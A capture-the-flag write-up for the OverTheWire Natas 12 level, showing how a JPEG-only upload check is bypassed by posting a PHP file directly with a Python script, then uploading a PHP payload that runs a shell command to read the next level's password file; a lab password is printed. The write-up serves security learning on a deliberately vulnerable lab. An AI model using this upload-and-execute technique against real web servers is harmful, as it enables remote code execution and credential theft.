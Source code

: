 # Writeup for [Natas 12 - Natas 13](http://natas12.natas.labs.overthewire.org) from [OverTheWire](https://overthewire.org)

We are given an upload form to upload JPEG files.

Uploading a JPEG will definitely work, but what happens if we try to upload a `.php` file?

Let's try to upload a simple php file that will just echo some text to the screen.

```bash
echo '<?php echo "Test"; ?>' > test.php
```

Let's try to upload `test.php` to the webapp.

Looks like it spits out an error.

![error](./img/error.png)

It also seems that our filename is being changed to a random filename with a `.jpg` extension everytime we upload.

Looking at the source code we see there are 2 major code blocks that come in to play.

![source](./img/source.png)

The first being the `makeRandomPathFromFilename` which creates a random filename with an extension that is provided with the filename. If we looks closely to the bottom, the snippet `value="<? print genRandomString(); ?>.jpg" />` is forcing it so our filename will always end in `.jpg` but we can probably change that if we upload the file directly wihtout going through that piece of code.

The second being that `if(array_key_exists("filename", $_POST)) { ` that will upload our file if we do a `POST` request on the page.

Now let's create a python script that will upload our file directly to the web server.

```python
#!/usr/bin/env python

import requests

url = 'http://natas12.natas.labs.overthewire.org'

user = 'natas12'

pw = 'EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3'

# Fill out the necessary Form data
data = {
	"filename" : "test.php",
	"MAX_FILE_SIZE" : "1000",
}

# File to upload
files = {
	"uploadedfile" : open('test.php','rb')
}

r = requests.post(url,auth = (user,pw), data = data, files = files )

print(r.text)
```

Looks like we are successful in uploading our file, it preserved the `.php` extension that will hopefully execute on the website.

![success.png](./img/success.png)

It worked! Our php file which simply prints out the word "Test" has successfully been executed on the website.

![poc](./img/poc.png)

Now all we need to do is just create code that will read the next user's password located in `/etc/natas_webpass/natas13`.

This payload will run the `system` function in PHP which will execute shell commands. We'll use this function to read natas13's password.

```bash
echo '<?php system("cat /etc/natas_webpass/natas13"); ?>' > test.php
```

Uploading the file once more with python.

![exploit](./img/exploit.png)

We get the password for natas13.

![password](./img/password.png)